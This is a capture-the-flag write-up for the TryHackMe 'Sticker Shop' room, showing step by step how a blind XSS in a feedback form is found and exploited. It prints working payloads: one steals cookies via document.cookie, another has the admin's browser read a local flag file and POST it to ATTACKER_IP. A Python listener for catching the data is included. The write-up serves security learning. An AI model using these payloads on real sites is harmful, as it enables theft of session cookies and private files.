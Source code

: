 ```yaml
---
layout: default
title: "The Sticker Shop"
date: 2024-11-29
banner: "assets/images/sticker.png"
permalink: /writeups/the-sticker-shop
---
```

<br>

# The Sticker Shop 

## Challenge Description

**Task 1**  
The sticker shop is finally online!  
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

**Objective**:  
Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

You can find the original challenge at the following link: https://tryhackme.com/room/thestickershop
---

## Table of Contents
- [Walkthrough](#walkthrough)
  - [Initial Exploration](#initial-exploration)
  - [The Feedback Page](#the-feedback-page)
  - [Crafting the Payloads](#crafting-the-payloads)
    - [Initial Test Payload](#initial-test-payload)
    - [Cookie Payload (Unsuccessful)](#cookie-payload-unsuccessful)
    - [Direct File Access (Successful)](#direct-file-access-successful)
- [Decode the Flag](#decode-the-flag)

---


## Walkthrough {#walkthrough}

### Initial Exploration {#initial-exploration}
When I first read the challenge prompt, a few things caught my attention. The mention of hosting everything on the same computer sounded like a major vulnerability waiting to happen, especially if the admin reviews feedback on the same browser. The **hint** in the description felt like a nudge toward something admin-side, like a **Blind XSS**.

1. I visited `http://MACHINE_IP:8080/flag.txt` directly, hoping the flag was accessible.  
   - **Result**: I was greeted with a **401 Unauthorized** error. So, no luck here.

2. I went to the homepage at `http://MACHINE_IP:8080/`.  
   - This was a basic website, nothing fancy. But from here, I navigated to the **Feedback page**.

---

### The Feedback Page {#the-feedback-page}
The feedback page had a simple textbox for entering comments and a message below it:

> "Thanks for your feedback! It will be evaluated shortly by our staff."

At this point, I had a pretty strong suspicion that this was a **Blind XSS** challenge. The wording in both the prompt and the feedback page hinted at admin-side activity:  
- "evaluated shortly"  
- "feedback is important"

I decided to test for Blind XSS by injecting a basic payload into the textbox.

---

### Crafting the Payloads {#crafting-the-payloads}

#### Initial Test Payload {#initial-test-payload}
To confirm whether XSS was possible, I used a simple test payload:

```html
<img src="http://ATTACKER_IP:8000">
```
In order to actually receive this, I first had to start a python simple http server on my machine

```bash
python3 -m http.server 8000
```
soon after I sent the XSS payload requests started floading my terminal:
```bash
MACHINE_IP - - [29/Nov/2024 17:42:25] "GET / HTTP/1.1" 200 -
```
This confirmed it, the machine **is vulnerable to Blind XSS**. Now what was left to do was to get the admin bot to do something useful

#### Cookie Payload (unsuccesfull) {#cookie-payload-unsuccessful}
The first trick on my book was to steal the admin's cookie to gain access to the flag.txt file, to do that I used the following payload:

```html
<img src="invalid-image" onerror="fetch('http://ATTACKER_IP:8000/cookies?cookie=' + document.cookie)">
```
Unfortunately, this did not yield anything usefull, the website probably doesn't have cookies or my payload wan't able to capture it.

```bash
MACHINE_IP - - [29/Nov/2024 17:45:25] code 404, message File not found
MACHINE_IP - - [29/Nov/2024 17:45:25] "GET /cookies?cookie= HTTP/1.1" 404 -
```
#### Direct File Access (succesfull!) {#direct-file-access-successful}
The next thing was to see if I could get the admin to go to the flag.txt file and send its contents back to my http server. To do this a simplehttp does not suffice since it does not support POST requests

Using the following code, I made a better http server to view POST requests too:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        print(f"POST data received: {post_data}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_GET(self):
        parsed_path = urllib.parse.urlparse(self.path)
        query = urllib.parse.parse_qs(parsed_path.query)
        print(f"GET request received: {query}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

server = HTTPServer(('0.0.0.0', 8000), RequestHandler)
print("Server started on port 8000...")
server.serve_forever()
```
Now all I needed was a new payload, after a lot of tries (and espressos) I finally found a working one:

```html
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(flag => fetch('http://ATTACKER_IP:8000/flag',{method:'POST',body:btoa(flag),mode:'no-cors'})).catch(e => fetch('http://ATTACKER_IP:8000/error',{method:'POST',body:btoa(e.message),mode:'no-cors'}));">
```
Be sure to change ```ATTACKER_IP``` with your openvpn ip, as per the ip fetched, you might be wondering why it is a 127.0.0.1 ip. I found out using other payloads that the "admin" doesn't use the openvpn ip we see (why would it if the file is on his computer?), instead it has a local one, which works way better.

---
### Decode the Flag {#decode-the-flag}
If everything went right, you received a base64 encoded flag, to decode it use a tool like [cyberchef](https://gchq.github.io/CyberChef/).

---

## Final Thoughts

This challenge was like making a perfect espresso: patience, precision, and the right blend of ideas. Blind XSS taught me to adapt to localhost quirks and think creatively about admin-side processing. 

Grazie for reading, and buona fortuna on your next hack! 

